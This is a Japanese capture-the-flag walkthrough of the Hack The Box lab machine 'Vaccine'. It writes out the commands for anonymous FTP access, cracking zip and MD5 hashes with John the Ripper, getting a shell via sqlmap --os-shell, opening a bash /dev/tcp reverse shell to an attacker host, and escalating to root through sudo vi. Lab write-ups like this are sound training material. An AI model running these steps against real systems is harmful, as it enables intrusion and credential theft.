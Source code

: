 # Vaccine Walkthrough
HTBのVery Easyマシン、Vaccineを解いたよ。  


## 1問目  
1問目は"Besides SSH and HTTP, what other service is hosted on this box?"   
nmapで1から10000のポートを選択してスキャンしてサービスを列挙する。
```
sudo nmap -sV -p 1-10000 -T4 <target_IP> -A -v
```  

21番ポートが空いてるので、このサービスをフラグ入れる。1問目ゲット。  
![alt text](image.png)


## 2問目  
2問目。"This service can be configured to allow login with any password for specific username. What is that username?"  
FTPには**匿名ログイン**なるものがある。nmapでスキャンしたときに**Anonymous FTP login allowed**って書いてあれば、FTPログインする際に**anonymous**ユーザを指定してパスワード入力せずにログインできる。ということで答えは**anonymous**。
![alt text](image.png)  
  

## 3問目  
3問目。"What is the name of the file downloaded over this service?"  
FTP経由でダウンロードできるファイルを確認するため先ほどの**anonymous login**を使って接続してみる。  
```
ftp <target_IP>
Name: anonymous
Password:
```
![alt text](image-1.png)  
  
    
dirでファイルを列挙してからgetコマンドでローカルにファイルを落とす。exitでFTP接続を切る。
```
dir
get backup.zip
exit
```

## 4問目  
4問目。"What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?"  
以下のコマンドでパスワード付きzipからパスワードのハッシュを抽出できる。なので答えは**zip2john**
```
zip2john bakup.zip > hash.txt
cat hash.txt
```  
![alt text](image-2.png)  


## 5問目
5問目。"What is the password for the admin user on the website?"  
とりまブラウザからターゲットサーバの80ポートへ。  
![alt text](image-3.png)  
ここでUsernameは**admin**、ただしPasswordが分からない。  
  

backup.zipから抽出したハッシュをjohnでクラックする。  
パスワードっぽい数字が出てきた。
```
john hash.txt
```  
![alt text](image-4.png)  
  
backup.zipを解凍する。パスワードは先ほどのjohn hash.txtで出てきた上記の数値。  
```
unzip backup.zip
```
  
index.phpが見れるようになるので見てみる。md5のパスワードハッシュらしきものが見える。  
先ほどの管理者画面からpasswordパラメータの値としてこのハッシュをPOSTしていそう。
![alt text](image-5.png)  
  
MD5のハッシュをtxtファイルに保存してjohnでクラックする。ワードリストで迷ったらとりあえずrockyou.txtを使うのがコツ。  
![alt text](image-6.png)  

```
john --format=raw-md5 crack.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
qwerty789というパスワードが取れた。  

![alt text](image-7.png)  


## 6問目  
6問目。"What option can be passed to sqlmap to try to get command execution via the sql injection?"
helpを見たら--os-shellって書いてあるのでこれが正解。
```
sqlmap --help
```

## 7問目 
7問目。"What program can the postgres user run as root using sudo?"  
sudo -lをすれば、現在ログインしているユーザでパスワード入力なしでroot実行できるコマンドが出てくるので、まずはシェルを取ってからsudo -lしたいところ。  
なのでとりまシェルを取る。  
先ほどのsqlmapを使う。
```
sqlmap -r get.txt -p search --os-shell
```
ここで、-rで指定しているのはこんなやつ。
![alt text](image-8.png)
  

ターゲットの管理画面にブラウザアクセスした後、右上の検索窓から適当に入力するとリクエストが中継されて取れる。  
![alt text](image-9.png)
で、リクエストを見るとsearchパラメータが任意の文字列を渡せる場所なので、sqlmapの-pでsearchを指定。あとはシェルを取るためにさっきの--os-shellオプションをつける。  
  
で、こんな感じでシェルがとれてコマンド実行ができる。現在はPostgresユーザ。  
![alt text](image-10.png)  
  
シェルを安定させるために以下のコマンドを実行してリバースシェルをとっとく。   
```
nc -lvnp 4444
bash -c "bash -i >&1 /dev/tcp/<attackerIP>/4444 0>&1"
```
  
シェルを取ったら/var/www/html/dashboard.phpをcatで確認するとPostgresユーザのパスワードが書いてある。  
やっとの思いでsudo -lを実行する。  
viが使えるのが分かるのでこれが答え。
```
sudo -l
```
  

## 8問目&9問目  
8問目と9問目まとめていきます。ユーザフラグとrootフラグを取る。  
root権限で以下のコマンド実行できるのがさっきのステップで分かった。  
以下を実行する。
```
sudo vi /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
![alt text](image-11.png)  
  
root権限でviを使える。権限昇格のバイブル、[GTFObin](https://gtfobins.github.io/gtfobins/vi/#sudo)をチェック。  
viで開いたら、:set shell=/bin/shと:shellを書き込んでwqで保存するだけぽい。  
   
そんなこんなでrootとれた。  
![alt text](image-12.png)  
  
もうrootなんであとはなんでもできる。フラグを探して終わり。  
